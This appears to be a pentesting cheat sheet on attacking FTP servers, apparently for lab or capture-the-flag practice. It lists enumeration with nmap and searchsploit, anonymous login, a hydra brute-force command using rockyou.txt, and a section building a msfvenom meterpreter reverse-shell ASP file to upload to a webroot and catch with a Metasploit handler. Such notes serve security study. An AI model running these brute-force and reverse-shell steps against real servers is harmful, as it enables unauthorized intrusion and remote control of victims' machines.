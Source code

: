 ## FTP
File Transfer Protocol
- Protocol to transfer files between hosts
- port 21
- can be anonymous or authenticated
- login anonymous if allowed
- commonly used for webserver

### Good to know
- binary mode sends files as they are
- ascii mode converts files to ascii
- switch between modes with `binary` and `ascii`

### FTP Commands
```sh
ftp 10.129.228.195
-h help
```

#### On ftp shell:
```sh
help #hilfe
dir #show directory
get #download file
cd #change directory
put /home/test/test.txt #upload file
```
### FTP Enumeration

#### Nmap
```sh
nmap -sV -sC 192.254.1.1 -p21 #default scan find already anonymous login is allowed and read or writeable
```

#### searchsploit 
femitter is a ftp server type name
```sh
searchsploit femitter #search for exploits
```

### FTP Annonymous Login
if anonymous ftp login allowed then user username: anonymous
```
username: anonymous
password: any
```

### Login bruteforce
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.255.1.231 ftp #bruteforce ftp with rockyou list
-l # username 
-P # passwordlist target protocol
```
```
Google for ftp default login data with the target server version / ftp client name:
- admin: password
- admin: admin
- etc. depending on ftp server version
```
### Reverse Shell over FTP  

1. Create reverse shell with msfvenom
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.254.1.229 LPORT=4444 -f asp > shell.asp

#asp: if the target is a asp server
```
2. That creates an asp shell script which can be
3. Accepting the shell with metasploit:
```shell
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.254.1.228; set lport 4444; run -j"
```
4. Put  the shell.asp in webroot of ftp and try to open in browser.
5. Than open it in browser to execute the shell.

